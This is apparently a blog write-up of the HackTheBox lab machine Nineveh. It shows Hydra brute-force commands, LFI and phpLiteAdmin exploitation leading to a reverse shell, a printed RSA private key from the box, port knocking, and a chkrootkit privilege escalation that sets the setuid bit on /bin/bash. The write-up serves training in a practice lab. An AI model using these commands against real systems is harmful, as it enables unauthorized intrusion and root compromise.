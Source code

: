 ```yaml
---
title: "Nineveh"
date: 2023-06-26T12:51:31+02:00
tags: ["linux","lfi"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: /HTB/Nineveh.png
description: "This write-up will be about the HackTheBox machine called Nineveh. "
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
description: "A linux room that " 
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Nineveh
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/Nineveh

![Untitled](/HTB/Nineveh.png)

## Tools Used

- Nmap
- Searchsploit
- Hydra
- Knock 

## Port Scanning

Other room, other port scan.

```bash
 nmap -p- --open -sCV -sS --min-rate 5000 -vvv -n -Pn 10.10.10.43 -oN escaneo 
```
![Untitled](/HTB/nmap-nineveh.png)

I found only 1 open port. Let’s focus on it.

## Enumeration

First I saw is that there are two url's one with https and one other with http. I found two diferent login page
one on each url.

![Untitled](/HTB/gobuster-nineveh.png)


## Exploiting

After trying some basic SQL injections and some basic names I decided to brute force with Hydra. With the following commands:
```bash
 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form /db/index.php:"password=^PASS^&proc_login=^USER^:Incorrect password."
 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form /department/login.php:"password=^PASS^&proc_login=^USER^:Invalid password."
```

![Untitled](/HTB/db_nineveh.png)

![Untitled](/HTB/hydra_nineveh.png)

When I logged into both I got these interfaces:

![Untitled](/HTB/login-nineveh.png)

![Untitled](/HTB/dbcreate-nineveh.png)

In the page of department, I saw that in **notes** menu the url changes to something so strange. So as always I tried
to find LFI and surprise there is jeje.

![Untitled](/HTB/lfi-nineveh.png)

Once I discovered this I will go to make an oo on the other website. The name of phpLiteAdimn was strange to me since it 
also had a version, so I looked it up in searchsploit and found that there were several vulnerabilities, one of them that 
matched my version said like this: if I manage to create a database and save it in .php, it should be stored with the rest 
in /var/temp/... and I create a table with a single box and enter a code in PHP (reverse shell), then I can access from 
the other page because of the LFI vuln and execute the php command.

![Untitled](/HTB/searchsploit-nineveh.png)

![Untitled](/HTB/dbcreate-nineveh.png)

And suprise we can controle terminal with that so let's do a reverse shell and ...

![Untitled](/HTB/bash-nineveh.png)

![Untitled](/HTB/pwnd-nineveh.png)

The machine is pawned !!

## Gaining an Initial Foothold

I try to do `sudo -l` but no works...

Searching I found the id_rsa of user ambrois

```ruby
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----
```

Next, I found the knockd.conf file in /etc. Reading it:

![Untitled](/HTB/knock-nineveh.png)

So if I do this sequence:
```bash
 knock nineveh.htb 571 290 911
```
I can open ssh port and connect by id_rsa that I found before ...

```bash
 ssh -i id_rsa ambrois@10.10.10.43
```
So I'm now ambrois ...

Next I use **procmon.sh** program to list al process that are running on sistem,
and I saw one called **chkrootkit**, and searching for it I learn that this program
opens the arhive **/temp/update**, so I can create a file called update with this:

```bash
 #!/bin/sh
 chmod +s /bin/bash
```
and then execute `bash -p` and I'm root!! 


The procmon.sh ->
```bash
 #!/bin/bash

old_process=$(ps -eo user,command | awk '!/procmon|kworker/ {print}')

while true; do
        new_process=$(ps -eo user,command | awk '!/procmon|kworker/ {print}')
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>]" | grep -vE "procmon|awk|kworker"
        old_process=$new_process
done
```
## Lessons Learned

- What insights did you gain from the room?
    
    I learn more about lfi, hydra, port knocking and chrootkit.
    
- Were there any novel tools or techniques employed?
    
    The use of hydra I think.
